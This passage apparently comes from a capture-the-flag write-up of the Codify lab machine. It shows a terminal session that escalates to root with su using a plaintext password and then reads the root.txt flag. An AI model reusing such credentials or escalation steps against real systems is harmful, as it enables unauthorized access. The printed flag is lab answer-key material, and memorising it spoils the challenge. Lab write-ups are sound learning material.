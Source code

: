 Using this password to capture root.txt:

```bash
joshua@codify:~$ su
Password: kljh12k3jhaskjh12kjh3
root@codify:/home/joshua# ll
total 3080
drwxrwx--- 4 joshua joshua    4096 Nov  6 12:43 ./
drwxr-xr-x 4 joshua joshua    4096 Sep 12 17:10 ../
lrwxrwxrwx 1 root   root         9 May 30 12:08 .bash_history -> /dev/null
-rw-r--r-- 1 joshua joshua     220 Apr 21  2023 .bash_logout
-rw-r--r-- 1 joshua joshua    3771 Apr 21  2023 .bashrc
drwx------ 2 joshua joshua    4096 Sep 14 14:44 .cache/
-rw------- 1 joshua joshua      20 Nov  6 12:34 .lesshst
drwxrwxr-x 3 joshua joshua    4096 Nov  6 12:35 .local/
-rw-rw-r-- 1 joshua joshua     514 Nov  6 12:38 ok.py
-rw-r--r-- 1 joshua joshua     807 Apr 21  2023 .profile
-rwxrwxr-x 1 joshua joshua 3104768 Nov  6 12:43 pspy64*
-rw-r----- 1 root   joshua      33 Nov  6 12:33 user.txt
-rw-r--r-- 1 joshua joshua      39 Sep 14 14:45 .vimrc
root@codify:/home/joshua# cd
root@codify:~# id
uid=0(root) gid=0(root) groups=0(root)
root@codify:~# cat
.bash_history   .bashrc         .creds          .local/         .mysql_history  .profile        root.txt        scripts/        .ssh/           .vimrc
root@codify:~# cat root.txt
e2494157a506c41fa1bcdd2d1c396f14
```